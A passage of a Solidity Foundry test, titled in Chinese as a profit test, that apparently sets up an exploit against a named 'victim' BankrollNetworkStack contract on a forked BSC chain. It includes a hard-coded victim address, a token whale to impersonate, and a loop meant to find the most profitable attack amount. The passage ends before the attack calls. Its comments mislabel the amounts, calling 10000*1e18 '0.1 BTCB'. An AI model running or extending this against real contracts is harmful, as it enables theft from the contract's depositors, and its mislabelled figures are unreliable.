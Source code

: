 ### 获利测试文件
![](media/c153d6435b3a011d8113580073e26f69.png)  
```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);
}

interface IBankrollNetworkStack {
    function donatePool(uint amount) external returns (uint256);
    function buyFor(address _customerAddress, uint buy_amount) external returns (uint256);
    function withdraw() external;
    function sell(uint256 _amountOfTokens) external;
    function myTokens() external view returns (uint256);
    function myDividends() external view returns (uint256);
}

contract ProfitThresholdTest is Test {
    address private constant VICTIM_CONTRACT = 0xeF6676536a1d98942d149f52708770e11Db47BcE;
    // BTCB代币地址 (Binance-Peg BTCB Token)
    address private constant BTCB = 0x2170Ed0880ac9A755fd29B2688956BD959F933F8;
    // BTCB鲸鱼地址 (Binance 8)
    address private constant BTCB_WHALE = 0xF977814e90dA44bFA03b6295A0616a897441aceC;
    
    // 测试的最小和最大金额范围（BTCB）
    uint256 public constant MIN_TEST_AMOUNT = 10000 * 1e18;   // 0.1 BTCB
    uint256 public constant MAX_TEST_AMOUNT = 50000 * 1e18; // 1 BTCB
    uint256 public constant STEP = 10000 * 1e18; // 0.1 BTCB步长

    function setUp() public {
        // 创建BSC网络的fork
        vm.createSelectFork("https://virtual.binance.eu.rpc.tenderly.co/d6bf3f88-f9d8-493e-b759-7e92f6587bc9", 60376707);
    }
    
    // 测试不同投入金额下的获利情况
    function testFindProfitThreshold() public {
        console.log(unicode"开始测试不同投入金额下的获利情况");
        console.log(unicode"----------------------------------");
        
        uint256 maxProfit = 0;
        uint256 bestAmount = 0;
        uint256 bestDonateRatio = 0;
        uint256 breakEvenPoint = 0;
```